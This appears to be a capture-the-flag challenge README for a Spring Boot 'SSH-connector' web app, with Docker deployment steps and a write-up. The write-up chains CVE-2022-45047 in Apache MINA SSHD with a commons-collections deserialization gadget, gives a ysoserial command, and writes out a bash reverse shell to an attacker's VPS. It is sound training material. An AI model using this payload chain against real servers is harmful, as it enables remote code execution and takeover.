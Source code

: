 ## 題目名稱

SSH-connector

## 題目類型

Web

## 題目說明

BRIdGE developed a web app which uses SSH protocol to connect to remote server. He then can connect to his VPS and run commands using only browsers.

He connects to his VPS on his smart phone, TV and even Apple Watch. But someday, someone connects to BRIdGE's own machine...

## Challenge Deployment

`docker build -t ssh-connector .`

`docker run -id -p 8088:8080 --name ssh-connector ssh-connector`

This is a white-box challenge. So remember to give challengers the docker files.

## Write-Up

The app is a springboot application. Use java decompile tools like jd-gui to reveal the jar file. Locating the pom.xml, and the app uses the below dependency to handle SSH connections.

```xml
<dependency>
    <groupId>org.apache.sshd</groupId>
    <artifactId>sshd-core</artifactId>
    <version>2.9.1</version>
</dependency>
```

This version of Apache MINA SSHD is exploitable with CVE-2022-45047. 

Look deep into the source code. Users can upload an arbitrary private key file to `/app/files` . And the file will be load as a KeyPair object, before serialized to a `.ser` file. While connecting to the remote server, the `.ser` file will be deserialized and be passed to the provider `SimpleGeneratorHostKeyProvider`.The KeyPair path of `SimpleGeneratorHostKeyProvider` is controllable by users, so users can provide dangerous serialized data.

On the other hand, the app has a dependency

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

which leads to arbitrary code execution when being deserialized.

Use [ysoserial](https://github.com/frohoff/ysoserial) to craft the serialized data.

`java -jar ysoserial.jar CommonsCollections6 'bash -c {echo,xxx}|{base64,-d}|{bash,-i}' > rev_shell.ser`

Note that `xxx` is the base64 encoded data of

`bash -c 'bash -i >& /dev/tcp/[attacker's VPS ip]/[attacker's VPS port] 0>&1'`

And upload `rev_shell.ser ` , and then connect to any server using the returned private key path. The attacker's VPS will then receive a reverse shell. Finally run `/readflag` to get the flag.